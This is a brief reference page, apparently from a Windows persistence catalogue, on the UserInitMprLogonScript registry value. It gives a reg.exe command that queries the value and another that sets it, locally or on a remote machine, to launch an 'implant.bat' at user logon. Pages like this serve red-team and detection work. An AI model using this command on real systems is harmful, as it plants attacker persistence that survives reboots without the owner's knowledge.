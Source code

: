# Environment Key

```
C:\> reg.exe query [\\<IP>\]HKCU\Environment /v UserInitMprLogonScript
```

```
C:\> reg.exe add [\\<IP>\]HKCU\Environment /t REG_SZ /v UserInitMprLogonScript /d "C:\path\to\implant.bat" /f
```

---
## References

- [Persistence Info: User Init Mpr Logon Script](https://persistence-info.github.io/Data/userinitmprlogonscript.html)